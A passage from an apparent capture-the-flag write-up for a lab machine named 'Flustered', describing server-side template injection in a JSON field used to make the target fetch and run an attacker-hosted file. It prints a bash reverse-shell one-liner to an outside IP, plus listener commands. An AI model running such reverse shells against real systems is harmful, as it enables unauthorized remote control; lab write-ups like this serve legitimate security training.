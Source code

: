I try some basic **SSTI** injections and get the expected results, now I test if I have connectivity to the attacking machine through an **SSTI** and if I make a request to my machine from the victim machine, I receive a request.

```bash
curl -s -X GET http://10.10.11.131

curl -s -X GET http://10.10.11.131 -H "Content-type: application/json" -d '{"siteurl":"oldboy"}'
curl -s -X GET http://10.10.11.131 -H "Content-type: application/json" -d '{"siteurl":" ... "}'
curl -s -X GET http://10.10.11.131 -H "Content-type: application/json" -d '{"siteurl":" ... "}'

tcpdump -i tun0 icmp -n
curl -s -X GET "http://10.10.11.131" -H "Content-type: application/json" -d '{"siteurl": " ... "}'
```

<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_32.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_33.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_34.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>

I just have to create a malicious `index.html` file that sends me a **Reverse Shell** and through the **SSTI** I will try to access this resource on my machine, so that its code is interpreted with `bash` and get the **Reverse Shell**.

```bash
nvim index.html
```

> **`index.html`**

```bash
#!/bin/bash

bash -i >&/dev/tcp/10.10.14.8/443 0>&1
```

> **Host**:

```bash
python3 -m http.server 80
curl -s -X GET http://10.10.11.131 -H "Content-type: application/json" -d '{"siteurl":" ... "}'

sudo nc -nlvp 443
curl -s -X GET http://10.10.11.131 -H "Content-type: application/json" -d '{"siteurl":" ... "}'
```

<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_35.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/>
<img src="{{ site.img_path }}/flustered_writeup/Flustered_36.png" width="100%" style="margin: 0 auto;display: block
; max-width: 900px;">
<br/><br/>
